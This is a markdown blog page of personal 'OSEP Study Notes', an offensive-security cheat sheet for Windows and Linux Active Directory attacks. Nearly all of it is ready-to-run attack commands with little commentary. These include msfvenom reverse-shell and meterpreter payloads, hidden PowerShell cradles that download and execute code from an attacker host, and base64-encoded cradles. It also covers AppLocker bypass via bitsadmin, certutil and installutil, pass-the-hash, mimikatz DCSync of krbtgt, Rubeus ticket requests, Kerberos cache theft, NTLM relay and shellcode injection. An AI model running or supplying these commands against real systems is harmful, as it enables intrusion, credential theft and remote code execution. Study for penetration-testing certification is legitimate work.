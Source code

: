 ```yaml
---
layout: post
title: "OSEP Study Notes"
tags: notes
---
```


# OSEP Notes

msfvenom

`msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe -o msf.exe`

`msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<ip> LPORT=443 -f exe -o msf.exe`

list encrypted options in msfvenom!

`msfvenom --list encrypt`

32bit csharp payload msfvenom

`msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.82 LPORT=443 -f csharp -o 32bit.cs`


RDP

`xfreerdp /u:<user> /d:<domain> /pth:<ntlm> /v:<ip>:3389 /dynamic-resolution`


Metasploit

`msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443;exploit -j"`

Session passing from Covenant to Msf

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=8080 EXITFUNC=thread -f raw -o msf.bin`

`Inject <pid>`


DotNetToJscript

`.\DotNetToJScript.exe .\ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js`

PowerShell

`(New-Object System.Net.WebClient).DownloadFile('http://192.168.49.82/ClassLibrary1.dll','ClassLibrary1.dll')`

`powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.49.82/run.txt'))`

Powershell tool Find-AVSignature

`Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force`

Covenant

```powershell
powershell -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.82/payload.ps1')"

iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/a.ps1"); iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/payload.ps1")

iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/a.ps1"); iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/msf64.ps1")

$string = 'iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/cradle.ps1")'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($string))
```

Convert SID to hostname (Powerview or powermad)

`ConvertFrom-SID <sid-value-here>`

AppLocker Bypasses

`certutil -encode AppLockerBypass.exe file.txt`

Transfer with bitsadmin (not certutil as this gets flagged!)

`bitsadmin /Transfer myJob http://192.168.49.82/file.txt`

`certutil -decode enc.txt Bypass.exe`


Oneliner

```powershell
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode  C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```

# Windows

RDP lateral movement mimikatz

`sekurlsa::pth /user:admin /domain:DOMAIN /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"`

SharpRDP - We can execute any program remotely with SharpRDP.exe

`SharpRDP.exe computername=appsrv01 command=notepad username=DOMAIN\dave password=lab`

Execute out meterpreter via powershell download cradle!

```powershell
.\SharpRDP.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.82/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=DOMAIN\dave password=lab
```

Mimikatz DC SYNC

`lsadump::dcsync /domain:prod.DOMAIN.com /user:prod\krbtgt`

Rubeus

`Rubeus.exe monitor /interval:5 /filteruser:CDC01$`

Rubeus can generate NTLM hash

`.\Rubeus.exe hash /password:lab`

Create a TGT for IISVC

`.\Rubeus.exe asktgt /user:iissvc /domain:prod.DOMAIN.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E`

# Linux

ansible2john format

`python3 /usr/share/john/ansible2john.py test.yml`

Crack ansible

`hashcat test-ansible.hash --force --hash-type=16900 /usr/share/wordlists/rockyou.txt`

Search for ansible leaked passwords in syslog

`cat /var/log/syslog | grep "password"`

query DC from linux using kerberos cacche file

`smbclient -k -U "DOMAIN.COM\administrator" //DC01.DOMAIN.COM/C$`

Linux kerberos

`sudo cp /tmp/krb5cc_607000500_3aeIA5 /tmp/krb5cc_minenow`

`sudo chown test:test /tmp/krb5cc_minenow`

`kdestroy`

`klist`

export the variable

`export KRB5CCNAME=/tmp/krb5cc_minenow`

now check it worked!

`klist`

`kvno SQLsvc/DC01.DOMAIN.com:1433`

`scp test@linuxvictim:/tmp/krb5cc_minenow /tmp/krb5cc_minenow`

export the variable as before

`export KRB5CCNAME=/tmp/krb5cc_minenow`

`ssh test@linuxvictim -D 1080`

```bash
#Impacket GetADUsers.py
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.82.5
DOMAIN.COM/Administrator

# get users SPNS
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.82.5 DOMAIN.COM/Administrator
```

'proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@DC01.DOMAIN.COM -k -no-pass'


`pwsh`

Encode the powershell cradle

```powershell
$text = 'iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/amsi.ps1"); iex (New-Object Net.WebClient).DownloadString("http://192.168.49.82/msf64.ps1")'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

Copy the base64 encoded text!

`sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.82.6 -c 'powershell -enc <base64 output from powershell cradle!'`



# Session Passing

To session pass from Metasploit to Covenant you can create a GruntHTTP.exe - create shellcode with donut
(/opt/donut)

`donut HTTPGrunt.exe -e1 -a2 -b1 -f1 -x1 -o HTTPGrunt.bin`

Then use the module “post/windows/manage/shellcode_inject”

```bash
set shellcode <.bin>
set session 
run 
```